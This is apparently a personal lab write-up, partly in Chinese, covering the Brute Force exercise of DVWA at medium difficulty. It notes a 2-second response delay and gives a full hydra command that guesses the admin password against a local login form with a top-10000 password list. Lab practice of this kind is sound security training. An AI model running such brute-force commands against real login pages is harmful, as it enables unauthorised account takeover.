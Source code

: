 # DVWA - medium

Created time: February 14, 2022 2:02 PM
Last Edited: February 17, 2022 12:49 AM
Property: February 14, 2022 2:02 PM
Tags: DVWA, writeup

<aside>
💡  Turn on dark 🌒 mode with cmd/ctrl + shift + L

</aside>

---

---

# **Brute Force**

### 觀察

試著送出表單，後端回應的時間明顯有延遲 2 秒

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled.png)

一樣用 hydra 試試看

```bash
hydra -V \
-l admin \
-P 10-million-password-list-top-10000.txt \
-s 8086 \
-f localhost \
http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

